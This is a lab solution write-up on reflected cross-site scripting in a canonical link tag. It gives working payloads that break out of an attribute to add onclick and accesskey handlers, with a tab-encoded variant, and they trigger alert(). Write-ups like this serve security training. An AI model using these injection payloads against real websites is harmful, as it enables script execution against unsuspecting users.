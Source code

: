 # Reflected XSS in canonical link tag
# Objective
This lab reflects user input in a canonical link tag and escapes angle brackets.\
\
To solve the lab, perform a cross-site scripting attack on the home page that injects an attribute that calls the alert function.\
\
To assist with your exploit, you can assume that the simulated user will press the following key combinations:
- `ALT+SHIFT+X`
- `CTRL+ALT+X`
- `Alt+X`
- 
# Solution
## Analysis
Payload: `$ip/?customsearch=sth` is reflected in response from a server.
|![](Images/image-65.png)|
|:--:| 
| *Test payload* |

## XSS Exploit
|![](Images/image-66.png)|
|:--:| 
| Payload: `$ip/?'onclick='alert()'accesskey='x` |

Even though the above payload works, below is a little bit cleaner version with TABs (%09).

Spaces (URL encoded or not) do not work as intended. 

|![](Images/image-67.png)|
|:--:| 
| `Space` was provided in URL and still `%20` was reflected |

|![](Images/image-68.png)|
|:--:| 
| Payload: `$ip/?'%09onclick='alert()'%09accesskey='x` |

After clicking `ALT+SHIFT+X` alert appears on screen.

![](Images/image-69.png)